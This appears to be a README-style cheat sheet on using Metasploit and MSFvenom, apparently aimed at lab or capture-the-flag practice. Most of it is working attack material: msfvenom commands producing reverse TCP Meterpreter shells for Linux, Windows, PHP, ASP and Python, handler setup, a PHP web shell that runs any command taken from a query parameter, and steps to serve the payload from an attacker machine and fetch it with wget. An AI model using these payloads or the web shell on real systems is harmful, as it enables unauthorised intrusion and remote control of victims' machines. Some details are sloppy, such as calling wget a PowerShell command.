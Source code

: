 # Metasploit Payload Usage Guide
## Overview

The Metasploit framework allows you to generate various payloads using **MSFvenom** and subsequently handle incoming connections with **Metasploit’s exploit/multi/handler**. The following process outlines how to create a payload, transfer it to the target device, and set up the listener to receive the incoming connection.

---

## Steps for Using MSFvenom Payloads

1. **Generate the shell** using MSFvenom and transfer it to the target's device.
2. **Start the Metasploit handler** with the following command:
```
use exploit/multi/handler
```
3. **Set the payload value** along with `LHOST` (your machine's IP) and `LPORT` (port on which your handler will listen) values.
4. **Run the handler** by typing `run` in the console and wait for the incoming connection.

---

## MSFvenom Payload Cheat Sheet

MSFvenom is a powerful tool for generating various payloads for multiple platforms. The following are common payloads and how to generate them.

### List of Available Payloads
To list all available Meterpreter payloads, use the following command:
```
msfvenom --list payloads | grep meterpreter
```

### Linux Executable and Linkable Format (ELF)
To create a reverse TCP shell for Linux:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```

### Windows Executable (EXE)
To create a reverse TCP shell for Windows:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

### PHP
To create a reverse TCP shell for PHP:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

### ASP
To create a reverse TCP shell for ASP:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

### Python
To create a reverse TCP shell for Python:
```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

---

## Troubleshooting: Shell Not Working

If the generated shell doesn’t work as expected, you can try the following PHP code on the target machine to commit code execution:

```
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>
```

After deploying the PHP script on the target system, execute commands via the query string by navigating to the shell’s URL with the ?cmd=<command> parameter. For example:
```
http://target.com/rev_shell.php?cmd=ls
```
This method allows you to execute arbitrary commands remotely.
# MSFvenom Extensions

Here are some commonly used MSFvenom extensions to enhance your payload generation process:
```
    -l payloads: Lists all available payloads in MSFvenom.
```
```
    -p PATH/TO/PAYLOAD: Defines the payload you want to use (e.g., windows/meterpreter/reverse_tcp).
```
```
    -f: Specifies the format of the payload (e.g., exe, elf, raw).
```
```
    -e: Defines the encoder to use for the payload (e.g., x86/shikata_ga_nai).
```
## Uploading the Shell

To upload the generated shell to the target system, you can use a simple HTTP server to host the payload.

1. On your attacker machine, start a simple HTTP server using Python:
```
python3 -m http.server
```
2. On the victim machine, use PowerShell to download the payload:
```
wget http://10.21.156.95:8000/revhell.php -O revhell.php
```
## Next Steps
Once the payload is successfully transferred to the target and executed, return to the Metasploit handler and wait for the incoming connection. After a successful connection, you can interact with the target system using Meterpreter or other post-exploitation tools provided by Metasploit.

This guide provides the essential steps to generate, transfer, and interact with payloads using MSFvenom and Metasploit. The cheat sheet should serve as a quick reference for common payload formats, while the troubleshooting section provides alternative methods if your initial approach does not work.
